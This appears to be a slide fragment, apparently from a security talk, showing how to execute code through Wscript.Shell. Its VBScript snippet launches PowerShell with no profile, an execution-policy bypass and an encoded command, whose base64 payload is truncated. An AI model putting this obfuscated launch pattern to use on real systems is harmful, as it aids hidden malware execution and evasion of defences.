

# How to execute - Wscript.Shell
Set objShell = CreateObject("Wscript.shell")
objshell.run("powershell -nop -ep bypass -enc Z2V0IGEgb....")